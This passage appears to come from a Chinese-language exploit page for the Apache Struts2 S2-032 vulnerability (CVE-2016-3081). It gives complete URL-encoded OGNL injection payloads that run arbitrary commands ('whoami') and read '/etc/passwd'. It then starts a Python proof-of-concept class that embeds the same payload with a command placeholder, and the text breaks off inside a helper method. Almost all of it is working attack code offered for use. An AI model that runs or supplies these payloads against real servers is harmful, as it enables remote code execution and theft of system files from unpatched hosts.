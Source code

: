 #### 执行命令

```java
?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=whoami
```

#### 读取文件

```java
?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=cat%20/etc/passwd
```

### POC

```python
#!/usr/bin/env python3

import random
import string
import requests

class S2_032_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-032漏洞,又名CVE-2016-3081漏洞',
            'description': 'Struts2 S2-032漏洞可执行任意命令,影响范围为: Struts 2.3.20 - Struts Struts 2.3.28 (2.3.20.3和2.3.24.3除外)',
            'date': '2016-04-19',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        self.capta = self.get_capta() 
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Connection': "keep-alive",
            "Content-Type": "application/x-www-form-urlencoded"
        }
        self.payload = '''?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd={cmd}'''
    
    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
```